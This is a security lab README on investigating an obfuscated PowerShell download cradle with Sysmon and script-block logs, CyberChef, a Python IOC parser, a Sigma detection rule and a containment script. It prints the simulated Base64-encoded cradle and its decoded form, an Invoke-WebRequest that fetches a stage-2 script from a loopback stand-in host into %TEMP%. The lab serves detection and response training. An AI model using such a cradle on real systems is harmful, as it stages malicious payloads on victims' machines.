



# Incident Investigation Lab: Obfuscated PowerShell Download Cradle


---

## Executive Summary

This laboratory investigation replicates and analyzes an endpoint intrusion vector featuring an obfuscated PowerShell download cradle executed via a hidden window style. Using low-level host telemetry, specifically **Sysmon Event ID 1 (Process Creation)** and **PowerShell Event ID 4104 (Script Block Logging)**, the full execution chain was reconstructed. The investigation covers parent-process lineage tracking, safe offline de-obfuscation via CyberChef, automated indicator parsing using custom Python tooling, Detection-as-Code engineering via Sigma, and an automated host containment playbook.

---

## Investigation Architecture & Flow

```text
            [ Ingress Vector: Malicious Payload Execution ]
                                 │
                                 ▼
           [ Sysmon Event ID 1: Process Creation Captured ]
   powershell.exe -NoExit -EncodedCommand SQBuAHYAbwBrAGUALQBX...
                                 │
                                 ▼
             [ Windows Event ID 4104: Script Block Logging ]
       De-obfuscated script block captured in-memory pre-execution
                                 │
                                 ▼
            [ Forensic De-obfuscation & Analysis Phase ]
           ├─ CyberChef: UTF-16LE + Base64 Recipe Decoding
           └─ Python Script: Automated Regex Extraction of IOCs
                                 │
                                 ▼
            [ Detection & Rapid Incident Response ]
           ├─ Detection-as-Code: Authored Sigma Detection Rule
           └─ Containment: Enforced C2 Firewall Isolation Rule
```

---

## Repository Structure

```text
suspicious-powershell-investigation/
├── configs/
│   ├── Sysmon64.exe                # Sysmon binary deployed in lab
│   └── sysmonconfig.xml            # Telemetry schema (Event ID 1 filtering)
├── detections/
│   └── sigma-powershell-cradle.yml # Sigma rule detecting hidden encoded cradles
├── report/                         # Investigative findings & incident notes
├── screenshots/
│   ├── 01-sysmon-event1.png        # Sysmon process creation telemetry
│   ├── 02-powershell-4104.png      # Unmasked script block logging telemetry
│   └── 03-cyberchef.png            # CyberChef UTF-16LE decode operations
├── scripts/
│   ├── containment_response.ps1    # PowerShell endpoint containment automation
│   ├── deobfuscate_cradle.py       # Automated Python Base64 parser & IOC extractor
│   └── simulate-cradle.ps1         # Lab attack replication harness
└── README.md                       # Comprehensive incident portfolio report
```

---

## Forensic Evidence & Telemetry Findings

### 1. Process Lineage & Arguments (Sysmon Event ID 1)

Sysmon captured the invocation of `powershell.exe` executing an encoded payload with hidden execution switches. The telemetry provided process IDs, hashes, user context, and parent process lineage.



- **Timestamp:** `2026-10-03 18:20:32 UTC`
- **Process Image:** `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`
- **Process ID:** `8768` (Parent Process ID: `6080`)
- **CommandLine:** `"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoExit -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQA6ADgAMAA4ADAAL...`
- **SHA256 Hash:** `3247BCFD60F6DD25F34CB74B5889AB10EF1B3EC72B4D4B3D95B5B25B534560B8`
- **User Context:** `WINDEV2407EVAL\User` (Integrity Level: `High`)

### 2. Script Block Logging (PowerShell Event ID 4104)

While Base64 encoding obscures the command from basic command-line inspection, PowerShell's internal engine parses the code into executable script blocks prior to execution. Event ID 4104 logged the complete unmasked syntax:



```text
Creating Scriptblock text (1 of 1):
Invoke-WebRequest -Uri "http://127.0.0.1:8080/stage2.ps1" -OutFile "$env:TEMP\update.ps1"
```

- **Observation:** The adversary used `Invoke-WebRequest` to initiate an unauthenticated external download targeting an internal staging port (`8080`), writing the stage-2 payload into the temporary profile path `%TEMP%\update.ps1`.

### 3. Static De-obfuscation (CyberChef)

To maintain operational security and avoid detonating unverified payloads on live systems, analyst triage was conducted in an isolated CyberChef environment using `From Base64` coupled with `Decode text (UTF-16LE 1200)`.



---

## Indicators of Compromise (IOCs)

| Artifact Category | Value / Indicator | Context / Impact |
| :--- | :--- | :--- |
| **Network URL** | `http://127.0.0.1:8080/stage2.ps1` | Malicious secondary payload delivery location |
| **Network IPv4** | `127.0.0.1` | Adversary staging endpoint / C2 redirector |
| **Network Port** | `8080/TCP` | Non-standard HTTP listener port |
| **File Path** | `%TEMP%\update.ps1` | Destination file for the dropped second stage |
| **Binary Hash** | `3247BCFD60F6DD25F34CB74B5889AB10EF1B3EC72B4D4B3D95B5B25B534560B8` | SHA256 of executing PowerShell host binary |

---

## Detection Engineering (Sigma Rule)

A vendor-agnostic Sigma detection rule was authored to capture obfuscated download cradles across production enterprise SIEM environments (Splunk, Elastic, Sentinel):

```yaml
title: Suspicious Encoded PowerShell Cradle Execution
id: 7b89e3a1-4389-4921-9876-bc3451290fae
status: experimental
description: Detects powershell.exe execution containing hidden window style parameters and base64 encoded payload cradles.
references:
  - https://attack.mitre.org/techniques/T1059/001/
  - https://attack.mitre.org/techniques/T1027/
  - https://attack.mitre.org/techniques/T1105/
logsource:
  category: process_creation
  product: windows
detection:
  selection_binary:
    Image|endswith:
      - '\powershell.exe'
      - '\pwsh.exe'
  selection_cli_flags:
    CommandLine|contains:
      - '-enc'
      - '-encodedcommand'
      - '-w hidden'
      - '-windowstyle hidden'
  condition: selection_binary and selection_cli_flags
falsepositives:
  - Administrative deployment scripts executed via SCCM or Intune using encoded wrappers.
level: high
tags:
  - attack.execution
  - attack.t1059.001
  - attack.defense_evasion
  - attack.t1027
  - attack.command_and_control
  - attack.t1105
```

---

## Malicious vs. Legitimate Administrator Activity Matrix

| Telemetry Attribute | Observed Malicious Cradle | Legitimate Administrator Operation |
| :--- | :--- | :--- |
| **Parent Process** | Unmanaged user shell, browser, or office application (`WINWORD.EXE`, `cmd.exe`) | Central deployment agents (`CcmExec.exe`, `services.exe`, Intune Management Engine) |
| **CLI Parameterization** | Obfuscated flags (`-w hidden`, `-enc`, single-letter shorthands) | Explicit arguments (`-NoProfile`, `-NonInteractive`, `-File C:\AdminScripts\...`) |
| **Payload Structure** | Unicode Base64 inline strings executing directly in memory | Digitally signed `.ps1` or compiled modules loaded from disk |
| **Target Destination** | Volatile user-writable directories (`%TEMP%`, `%APPDATA%`, `C:\ProgramData`) | System directories (`C:\Program Files`, administrative staging shares) |
| **Network Profile** | Direct raw IP connection over HTTP/non-standard ports | Encrypted HTTPS communication to verified corporate distribution infrastructure |
| **SOC Decision** | **True Positive: Immediate Process Kill & Host Isolation** | **Benign Positive: Whitelist path & suppression tuning** |

---

## Custom SOC Tooling: Automated Base64 IOC Parser

To eliminate repetitive manual steps in CyberChef during high-volume alert queues, a Python automation tool (`scripts/deobfuscate_cradle.py`) was created. It ingests Base64 commands and extracts network and filesystem artifacts using regular expressions:

```powershell
python scripts/deobfuscate_cradle.py "SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQA6ADgAMAA4ADAALwBzAHQAYQBnAGUAMgAuAHAAcwAxACIAIAAtAE8AdQB0AEYAaQBsAGUAIAAiACQAZQBuAHYAOgBUAEUATQBQAFwAdQBwAGQAYQB0AGUALgBwAHMAMQAiAA=="
```

**Output:**

```text
============================================================
[+] DEOBFUSCATED POWERSHELL PAYLOAD
============================================================
Invoke-WebRequest -Uri "http://127.0.0.1:8080/stage2.ps1" -OutFile "$env:TEMP\update.ps1"

============================================================
[+] EXTRACTED INDICATORS OF COMPROMISE (IOCs)
============================================================
Network URLs : ['http://127.0.0.1:8080/stage2.ps1']
IP Addresses : ['127.0.0.1']
Target Paths : ['$env:TEMP\\update.ps1']
```

---

## Incident Containment & Response Playbook

A dedicated remediation script (`scripts/containment_response.ps1`) was authored to rapidly contain the affected host upon confirmation of a True Positive verdict:

```powershell
param (
    [Parameter(Mandatory=$false)]
    [int]$TargetPID,
    [Parameter(Mandatory=$false)]
    [string]$C2_IP = "127.0.0.1"
)

Write-Host "[*] Executing Incident Containment Playbook..." -ForegroundColor Yellow

# Step 1: Force terminate adversary process tree
if ($TargetPID) {
    Stop-Process -Id $TargetPID -Force -ErrorAction SilentlyContinue
    Write-Host "[+] Terminated rogue process tree (PID: $TargetPID)" -ForegroundColor Green
}

# Step 2: Enforce immediate outbound firewall block on C2 IP
if ($C2_IP) {
    New-NetFirewallRule -DisplayName "SOC-Block-C2-$C2_IP" `
                        -Direction Outbound `
                        -Action Block `
                        -RemoteAddress $C2_IP `
                        -Enabled True | Out-Null
    Write-Host "[+] Enforced outbound perimeter block on C2 address: $C2_IP" -ForegroundColor Green
}

Write-Host "[+] Host containment sequence completed." -ForegroundColor Green
```

---

## MITRE ATT&CK Mapping

- **Execution:** [T1059.001 - Command and Scripting Interpreter: PowerShell](https://attack.mitre.org/techniques/T1059/001/)
- **Defense Evasion:** [T1027 - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)
- **Command and Control:** [T1105 - Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
